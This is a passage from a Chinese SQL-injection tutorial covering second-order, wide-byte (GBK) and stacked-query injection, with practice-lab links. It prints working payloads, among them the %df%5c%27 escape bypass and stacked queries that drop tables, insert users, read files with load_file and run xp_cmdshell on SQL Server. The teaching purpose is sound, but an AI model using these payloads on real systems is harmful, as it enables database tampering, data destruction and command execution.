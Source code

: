 - 第一步：插入恶意数据进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数据。
- 第二步：引用恶意数据开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验的处理。

**练习地址：**[https://www.yuque.com/xmtxsec/blog/badfn6](https://www.yuque.com/xmtxsec/blog/badfn6)


### 2.2.11、宽字节注入知识点
宽字节： GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节。宽字节带来的安全问题主要是ASCII字符(一字节)的现象，即将两个ascii字符误认为是一个宽字节字符。中文、韩文、日文等均存在宽字节，英文默认都是一个字节。

在使用PHP连接MySQL的时候，当设置“set character_set_client = gbk”时会导致一个编码转换的问题。

**例子：**
```
id= 1’ 处理 1 \’ 进行编码 1%5c%27 带入sql后 id = \’ and XXXX 此时无法完成注入
id=1%df’ 处理 1%df\’ 进行编码 1%df%5c%27 带入sql后 id =1運’ and XXX 此时存在宽字节注入漏洞
```

**练习地址：**[https://www.yuque.com/xmtxsec/blog/hbabnt](https://www.yuque.com/xmtxsec/blog/hbabnt)


### 2.2.12、堆叠注入知识点
	原理：在 SQL 中，分号（;）是用来表示一条 sql 语句的结束。试想一下我们在 ; 结束一个 sql 语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而 union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于 union 或者 union all 执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。
	
	堆叠注入的局限性在于并不是每一个环境下都可以执行，可能受到 API 或者数据库引擎 不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序。
	
	虽然我们前面提到了堆叠查询可以执行任意的 sql 语句，但是这种注入方式并不是十分完美的。在我们的 web 系统中，因为代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。 因此，在读取数据时，我们建议使用 union（联合）注入。同时在使用堆叠注入之前， 我们也是需要知道一些数据库相关信息的，例如表名，列名等信息。

**Mysql 数据库**
```
新建一个表 select * from users where id=1;create table test like users;
删除上面新建的 test 表 select * from users where id=1;drop table test;
查询数据 select * from users where id=1;select 1,2,3;
加载文件 select * from users where id=1;select load_file(‘c:/tmpupbbn.php’);
修改数据 select * from users where id=1;insert into users(id,username,password)values(‘100’,‘new’,‘new’);
```

**Sql server 数据库**
```
增加数据表 select * from test;create table sc3(ss CHAR(8));
删除数据表 select * from test;drop table sc3;
查询数据 select 1,2,3;select * from test;
修改数据 select * from test;update test set name=‘test’ where id=3;
sqlserver 中最为重要的存储过程的执行 select * from test where id=1;exec master…xp_cmdshell ‘ipconfig’
```

**Oracle 数据库**<br />oracle 不能使用堆叠注入

**Postgresql 数据库**
```
新建一个表 select * from user_test;create table user_data(id DATE);
删除上面新建的 user_data 表 select * from user_test;delete from user_data;
查询数据 select * from user_test;select 1,2,3;
修改数据 select * from user_test;update user_test set name=‘modify’ where name='张三 ';
```
